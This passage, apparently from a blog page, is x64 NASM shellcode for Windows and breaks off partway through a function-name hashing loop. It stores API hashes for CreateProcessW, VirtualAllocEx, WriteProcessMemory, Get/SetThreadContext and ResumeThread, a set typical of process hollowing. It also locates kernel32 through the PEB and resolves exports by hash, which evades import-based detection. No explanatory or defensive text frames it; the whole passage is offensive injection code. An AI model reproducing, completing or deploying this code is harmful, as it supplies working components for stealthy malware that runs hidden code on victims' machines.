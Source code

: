{% highlight Nasm linenos %}
[SECTION .text]
 
BITS 64
 
_start:
    jmp main
    
    ; Constants
    win32_library_hashes:
        call win32_library_hashes_return
        ; LoadLibraryA      R13
        dd 0xEC0E4E8E
        ; CreateProcessW - R13 + 0x08
        dd 0x16B3FE88
        ; TerminateProcess - R13 + 0x10
        dd 0x78B5B983
        ; GetThreadContext - R13 + 0x18
        dd 0x68A7C7D2
        ; VirtualAllocEx - R13 + 0x20
        dd 0x6E1A959C
        ; WriteProcessMemory - R13 + 0x28
        dd 0xD83D6AA1
        ; SetThreadContext - R13 + 0x30
        dd 0xE8A7C7D3
        ; ResumeThread - R13 + 0x38
        dd 0x9E4A3F88
        ; GetCurrentProcess - R13 + 40
        dd 0x7B8F17E6
    
    ; ======== Function: find_kernel32
    find_kernel32:
        push rsi
        mov rax, [gs:0x60]
        mov rax, [rax+0x18]
        mov rax, [rax+0x20]
        mov rax, [rax]
        mov rax, [rax]
        mov r11, [rax+0x20]                 ; Kernel32 Base Stored in R11
        pop rsi
        ret
        
    ; ======= Function: find_function
    find_function:
        mov eax, [r11+0x3C]
        mov edx, [r11+rax+0x88]
        add rdx, r11                        ; RDX now points to the IMAGE_DATA_DIRECTORY structure
        mov ecx, [rdx+0x18]                 ; ECX = Number of named exported functions
        mov ebx, [rdx+0x20]
        add rbx, r11                        ; RBX = List of exported named functions
    find_function_loop:
        jecxz find_function_finished
        dec ecx                             ; Going backwards
        lea rsi, [rbx+rcx*4]                ; Point RSI at offset value of the next function name
        mov esi, [rsi]                      ; Put the offset value into ESI
        add rsi, r11                        ; RSI now points to the exported function name
        
    compute_hash:
        xor edi, edi                        ; Zero EDI
        xor eax, eax                        ; Zero EAX
        cld                                 ; Reset direction flag
    compute_hash_again:
        mov al, [rsi]                       ; Place the first character from the function name into AL
        inc rsi                             ; Point RSI to the next character of the function name
        test al, al                         ; Test to see if the NULL terminator has been reached
        jz compute_hash_finished